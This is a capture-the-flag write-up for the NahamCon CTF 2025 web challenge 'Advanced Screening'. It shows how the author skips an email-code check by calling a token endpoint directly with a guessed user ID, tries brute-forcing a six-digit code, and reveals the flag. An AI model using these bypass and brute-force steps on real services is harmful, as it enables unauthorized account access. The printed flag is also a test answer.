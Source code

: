 ```yaml
---
name: Advanced Screening (2025)
event: NahamCon CTF 2025
category: Web
description: Writeup for Advanced Screening (Web) - NahamCon CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Advanced Screening

## Description

> HackingHub has provided this CTF challenge!

## Solution

From the homepage, we can enter an email address and request an access code.

![](images/0.PNG)

Doing so returns an error, so let's check the JS. `requestAccessCode()` sends the email address to an API endpoint.

{% code overflow="wrap" %}

```js
const response = await fetch('/api/email/', {
	method: 'POST',
	headers: { 'Content-Type': 'application/json' },
	body: JSON.stringify({ email })
```

{% endcode %}

`verifyCode` checks if the access code is 6 characters. If so, it sends the value to `/api/validate`. If it gets a response containing a `user_id`, it will send it to `/api/screen-token` and hopefully return a token (`tokenData.hash`) that we can use as a key to access the `/screen` endpoint.

{% code overflow="wrap" %}

```js
if (code.length === 6) {
	try {
		const response = await fetch('/api/validate/', {
			method: 'POST',
			headers: { 'Content-Type': 'application/json' },
			body: JSON.stringify({ code })
		});
		const data = await response.json();
		if (response.ok && data.user_id) {
			const tokenResponse = await fetch('/api/screen-token', {
				method: 'POST',
				headers: { 'Content-Type': 'application/json' },
				body: JSON.stringify({ user_id: data.user_id })
			});
			const tokenData = await tokenResponse.json();
			if (tokenResponse.ok && tokenData.hash) {
				window.location.href = `/screen/?key=${tokenData.hash}`;
			} else {
				alert("Failed to retrieve screening token.");
			}
		} else {
			alert("Invalid code. Please try again.");
		}
```

{% endcode %}

My first thought; do we need the code at all? Can't we just bypass it and go straight to `screen-token`, assuming that the `user_id` is predictable (I'll start with "1").

{% code overflow="wrap" %}

```js
tokenResponse = await fetch("/api/screen-token", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ user_id: 1 }),
});
```

{% endcode %}

Didn't work. While reviewing burp history I noticed an error message from our earlier email attempt.

{% code overflow="wrap" %}

```json
{ "error": "Only email addresses from \"movieservice.ctf\" are allowed" }
```

{% endcode %}

If we send `{"email":"admin@movieservice.ctf"}`, the request is successful. It seems to work with any `movieservice.ctf` email actually.

{% code overflow="wrap" %}

```json
{ "message": "Verification Email Sent" }
```

{% endcode %}

Let's try sending a 6 digit code.

{% code overflow="wrap" %}

```js
response = await fetch("/api/validate/", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ code: 123456 }),
});
```

{% endcode %}

{% code overflow="wrap" %}

```json
{ "error": "Invalid code" }
```

{% endcode %}

There's 1 million possibilities for the code, so brute force is obviously not the intended solution. However, I'm going to get some lunch so why not leave intruder running for 30 minutes and see the results 🤷‍♂️😂

{% code overflow="wrap" %}

```js
async function verifyCode() {
    try {
        const tokenResponse = await fetch("/api/screen-token", {
            method: "POST",
            headers: { "Content-Type": "application/json" },
            body: JSON.stringify({ user_id: 1 }),
        });
        const tokenData = await tokenResponse.json();
        console.log();
        if (tokenResponse.ok && tokenData.hash) {
            window.location.href = `/screen/?key=${tokenData.hash}`;
        } else {
            alert("Invalid code. Please try again.");
        }
    } catch (error) {
        console.error("Error verifying code:", error);
    }
}
```

{% endcode %}

I didn't solve this in time, so checked the writeup afterwards and kicked myself! I already brute forced the `user_id` between 1-100 for the `/api/screen-token` endpoint, but someone said the correct `user_id` was `7`. I tried it again.

![](images/1.PNG)

Nothing. Follow the redirection just in case.

![](images/2.PNG)

Apparently the problem was a missing `/` on the endpoint in the first request 😆

![](images/3.PNG)

That gets us the hash, then we just need to call the `/screen` endpoint with the key!

![](images/4.PNG)

Flag: `flag{f0b1d2a98cd92d728ddd76067f959c31}`
